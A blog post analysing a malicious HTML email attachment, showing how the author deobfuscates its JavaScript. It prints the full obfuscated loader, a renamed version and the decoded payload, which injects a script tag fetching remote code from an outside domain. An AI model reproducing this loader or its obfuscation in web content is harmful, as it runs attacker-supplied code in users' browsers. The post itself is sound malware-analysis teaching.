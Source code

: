 ```yaml
---
setup: |
  import Layout from '../../layouts/BlogPost.astro'
title: Deobfuscating a simple html malware loader
subtitle: 
publishDate: 2023-03-14
description: 
tags: ['obfuscation', 'web', 'malware']
permalink: https://halb.it/posts/html-loader-deobfuscation/
---
```


Recently I got my hands on a malicious spam email that contained an HTML attachment with the following script:

```js
function a0uqiiqu(){var tvtetaepmuol=['124DmjXwe','src','https://dos.com','512295URcyIF','750664RVFSzX',
'36WPNViT','34947uflpIw','59941oAwubn','createElement','1934810DDyBir','47565AALipC','1944VdGjMp',
'.gt/udu/udu.js?','script','12gOlcLD','200pNfvmM','3438gqVBAW'];a0uqiiqu=function(){return tvtetaepmuol;};
return a0uqiiqu();}var a0tauiqnasu=a0ouetecdcnseettrulcs;(function(uegtaapfalc,ipartuuqsrnae){
var umuqirae=a0ouetecdcnseettrulcs,eedxpatuti=uegtaapfalc();while(!![]){try{var lucesdeteds=-parseInt(
umuqirae(0xe9))/0x1*(parseInt(umuqirae(0xe8))/0x2)+-parseInt(umuqirae(0xed))/0x3+parseInt(umuqirae(0xea)
)/0x4*(-parseInt(umuqirae(0xe3))/0x5)+parseInt(umuqirae(0xe7))/0x6*(-parseInt(umuqirae(0xf1))/0x7)+-
parseInt(umuqirae(0xee))/0x8*(-parseInt(umuqirae(0xef))/0x9)+parseInt(umuqirae(0xf3))/0xa+parseInt(
umuqirae(0xf0))/0xb*(parseInt(umuqirae(0xe4))/0xc);if(lucesdeteds===ipartuuqsrnae)break;else eedxpatuti[
'push'](eedxpatuti['shift']());}catch(ieitmuosrseubp){eedxpatuti['push'](eedxpatuti['shift']());}}}(
a0uqiiqu,0x3eb7d));var incidunt=document[a0tauiqnasu(0xf2)](a0tauiqnasu(0xe6));function 
a0ouetecdcnseettrulcs(uqiiqu,ouetecdcnseettrulcs){var uegtaapfalc=a0uqiiqu();return a0ouetecdcnseettrulcs=
function(ipartuuqsrnae,eedxpatuti){ipartuuqsrnae=ipartuuqsrnae-0xe3;var lucesdeteds=uegtaapfalc[
ipartuuqsrnae];return lucesdeteds;},a0ouetecdcnseettrulcs(uqiiqu,ouetecdcnseettrulcs);}incidunt[a0tauiqnasu(
0xeb)]=a0tauiqnasu(0xec)+a0tauiqnasu(0xe5)+'83642',document['head']['appendChild'](incidunt);

```

It is a simple loader that downloads and runs an external script from the internet.<br/>
The obfuscation is not sophisticated since it's only there to avoid automated analysis, so despite the scary look, the code is pretty simple to understand.

After formatting everything and renaming some variables, we obtain this code:

```js
function getStrArray() {
  return ["124DmjXwe", "src", "https://dos.com", "512295URcyIF", "750664RVFSzX", "36WPNViT", "34947uflpIw", "59941oAwubn", "createElement", "1934810DDyBir", "47565AALipC", "1944VdGjMp", ".gt/udu/udu.js?", "script", "12gOlcLD", "200pNfvmM", "3438gqVBAW"];
}
function getStrArrayElement(param1, unused_param2) {
    var strArray = getStrArray();
    param1 = param1 - 227;
    return strArray[param1];
}



(function scramble_str_array(getStrArray, hardcodedInteger) {
  var umuqirae = getStrArrayElement, eedxpatuti = getStrArray();
  while (true) {
    try {
      var lucesdeteds = -parseInt(umuqirae(233)) / 1 * (parseInt(umuqirae(232)) / 2) + -parseInt(umuqirae(237)) / 3 + parseInt(umuqirae(234)) / 4 * (-parseInt(umuqirae(227)) / 5) + parseInt(umuqirae(231)) / 6 * (-parseInt(umuqirae(241)) / 7) + -parseInt(umuqirae(238)) / 8 * (-parseInt(umuqirae(239)) / 9) + parseInt(umuqirae(243)) / 10 + parseInt(umuqirae(240)) / 11 * (parseInt(umuqirae(228)) / 12);
      if (lucesdeteds === hardcodedInteger) break; else eedxpatuti.push(eedxpatuti.shift());
    } catch (ieitmuosrseubp) {
      eedxpatuti.push(eedxpatuti.shift());
    }
  }
}(getStrArray, 256893));



var incidunt = document[getStrArrayElement(242)](getStrArrayElement(230));
incidunt[getStrArrayElement(235)] = getStrArrayElement(236) + getStrArrayElement(229) + "83642", document.head.appendChild(incidunt);
```

Lets break it down:

- The first block defines an array of strings

- In the second block a mysterious algorithm inside an infinite loop scrambles the content of the array

- In the final block the actual payload is defined using strings from the scrambled array


The scrambler algorithm looks pretty complicated. Luckily, we don't have to understand it. Instead, we can use an old trick and replace the code payload with a string:

```js
var deobfuscated_payload_str = `
  var incidunt = document[${getStrArrayElement(242)}](${getStrArrayElement(230)});

  incidunt[${getStrArrayElement(235)}] = ${getStrArrayElement(236)} + ${getStrArrayElement(229)} + "83642",
    document.head.appendChild(incidunt);
`

console.log(deobfuscated_payload_str)

```

Now we can safely run the script. Instead of executing its malicious payload, it will kindly print it for us.

Here it is:

```js
var incidunt = document[createElement](script);

incidunt[src] = https://dos.com + .gt/udu/udu.js? + "83642",
  document.head.appendChild(incidunt);
```


